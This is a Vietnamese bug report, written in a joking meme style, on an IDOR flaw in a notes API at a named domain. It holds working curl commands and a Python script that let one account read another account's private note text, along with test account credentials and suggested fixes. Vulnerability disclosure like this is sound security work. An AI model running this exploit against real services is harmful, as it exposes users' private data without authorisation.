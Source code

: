 # BÁO CÁO LỖ HỔNG IDOR - THINKFLOW API

## Thông tin cơ bản
- **Ngày phát hiện:** 19/04/2025
- **Mức độ nghiêm trọng:** CAO VÃI NỒIIIII
- **API bị ảnh hưởng:** https://api.carehub-us.click

## Mô tả lỗ hổng
API cho phép người dùng truy cập nội dung ghi chú của người dùng khác thông qua endpoint `/note/v1/texts/{id}` mà không kiểm tra quyền sở hữu. Đây là một lỗ hổng IDOR nghiêm trọng vl nhé!

![Security Facepalm](https://i.imgur.com/iWKad22.jpg)

## Bằng chứng khai thác (đơn giản như ăn kẹo)
1. Tạo 2 tài khoản riêng biệt:
```bash
# Tài khoản 1 - Kẻ ngây thơ vô số tội
curl -X POST https://api.carehub-us.click/auth/v1/register -H "Content-Type: application/json" \
  -d '{"email":"nihey85233@cotigz.com","password":"Tempemail@123","first_name":"dkr8s","last_name":"j3rh4"}'

# Tài khoản 2 - Hacker mũ đen
curl -X POST https://api.carehub-us.click/auth/v1/register -H "Content-Type: application/json" \
  -d '{"email":"cimos69472@cxnlab.com","password":"Hackpass2@123","first_name":"r9dkf","last_name":"j38k9"}'
```

2. Tạo ghi chú với nội dung bí mật bằng tài khoản 1:
```bash
# Đăng nhập tài khoản 1 - "Đây là bí mật của tôi hehe"
TOKEN1=$(curl -s -X POST https://api.carehub-us.click/auth/v1/authenticate -H "Content-Type: application/json" \
  -d '{"email":"nihey85233@cotigz.com","password":"Tempemail@123"}' | grep -o 'accessToken=[^;]*' | cut -d= -f2)

# Tạo ghi chú bí mật như kiểu "Ai mà đọc được cái này chắc phải hack NASA"
NOTE_ID=$(curl -s -X POST https://api.carehub-us.click/note/v1/notes -H "Content-Type: application/json" \
  -H "Cookie: accessToken=$TOKEN1" -d '{"title":"Secret Note!"}' | grep -o '"data":"[^"]*"' | cut -d'"' -f4)

# Thêm nội dung bí mật - "Để tao cất kĩ vào đây"
TEXT_ID=$(curl -s -X POST "https://api.carehub-us.click/note/v1/texts/note/$NOTE_ID" -H "Content-Type: application/json" \
  -H "Cookie: accessToken=$TOKEN1" -d '{"text_content":"This is a secret data that should not be accessible to others."}' | grep -o '"data":"[^"]*"' | cut -d'"' -f4)

echo "Tạo ghi chú với ID: $NOTE_ID và nội dung ID: $TEXT_ID"
```

3. Đánh cắp dữ liệu bằng tài khoản 2:
```bash
# Đăng nhập tài khoản 2 - "Để xem họ có gì hay ho..."
TOKEN2=$(curl -s -X POST https://api.carehub-us.click/auth/v1/authenticate -H "Content-Type: application/json" \
  -d '{"email":"cimos69472@cxnlab.com","password":"Hackpass2@123"}' | grep -o 'accessToken=[^;]*' | cut -d= -f2)

# Thử truy cập ghi chú của tài khoản 1 qua ID note (API: "Không được đâu nhóc")
curl -X GET "https://api.carehub-us.click/note/v1/notes/ECVMjHZqgvfAj3n" -H "Cookie: accessToken=$TOKEN2"
# Kết quả: {"code":403,"status":"Forbidden","message":"no permission, only note owner or collaborator can do this"}

# Khai thác IDOR - Đọc nội dung ghi chú của tài khoản 1 qua ID văn bản (API: "Ồ, mời vào đọc thoải mái")
curl -X GET "https://api.carehub-us.click/note/v1/texts/DT1HKzkDNAUtYL6" -H "Cookie: accessToken=$TOKEN2"
# Kết quả: {"data":{"id":"...","text_content":"This is a secret data that should not be accessible to others."}}
```

![Hackerman](https://i.kym-cdn.com/entries/icons/original/000/021/807/ig9OoyenpxqdCQyABmOQBZDI0duHk2QZZmWg2Hxd4ro.jpg)

## Script siêu lầy để hack một phát ăn ngay
```python
import requests

# Thông tin tài khoản - "Danh sách nạn nhân"
user1 = {"email": "nihey85233@cotigz.com", "password": "Tempemail@123"}
user2 = {"email": "cimos69472@cxnlab.com", "password": "Hackpass2@123"}

# Đăng nhập vào cả hai tài khoản - "Vào vai diễn thôi"
def login(user):
    r = requests.post("https://api.carehub-us.click/auth/v1/authenticate", json=user)
    return r.cookies.get("accessToken")

token1 = login(user1)  # "Token của người vô tội"
token2 = login(user2)  # "Token của kẻ xấu"

# Trình diễn lỗ hổng IDOR - "Dễ như ăn kẹo"
def exploit_idor(text_id, token):
    headers = {"Cookie": f"accessToken={token}"}
    r = requests.get(f"https://api.carehub-us.click/note/v1/texts/{text_id}", headers=headers)
    return r.json()

# Text ID của tài khoản 1 - "Chìa khóa vào kho báu"
text_id = "DT1HKzkDNAUtYL6"

# Khai thác từ tài khoản 2 - "Và giờ là thời khắc huyền diệu..."
result = exploit_idor(text_id, token2)
print(f"HACK THÀNH CÔNG! Đọc được nội dung riêng tư: {result['data']['text_content']}")
print("Backend developer be like: 'WHY ARE YOU RUNNING???'")
```

## Tác động
- Kẻ tấn công có thể đọc **TẤT CẢ** ghi chú riêng tư của người dùng khác
- Các thông tin nhạy cảm có thể bị lộ, bao gồm dữ liệu cá nhân, tài chính, mật khẩu, thông tin kinh doanh...
- Vi phạm nghiêm trọng về quyền riêng tư của người dùng
- Backend developers sẽ khóc thét khi biết chuyện này

> Dev khi thấy báo cáo lỗi: "Ơ mẹ ơi, quên check quyền rồi!!!"

## Cách khắc phục (Fix gấp nếu không muốn bay job)
1. Thêm kiểm tra quyền sở hữu trong endpoint `/note/v1/texts/{id}` tương tự như đã làm với endpoint `/note/v1/notes/{id}`
2. Thực hiện xác thực người dùng ở tất cả các API endpoints - "Không xác thực = Mời hacker vào nhà"
3. Sử dụng UUID ngẫu nhiên thay vì ID dự đoán được - "Đoán mò ID dễ hơn cả đoán tỉ số bóng đá"



## Kết luận
Lỗ hổng IDOR này nghiêm trọng tới mức dev đọc xong báo cáo có khi phải xin nghỉ phép 1 tuần để hoàn hồn. Khách hàng cần khắc phục ngay nếu không muốn thấy dữ liệu của mình xuất hiện trên dark web với giá 2 đô la.

> "API bảo mật là gì? Ở đây chúng tôi không biết điều đó" - ThinkFlow API, 2025 
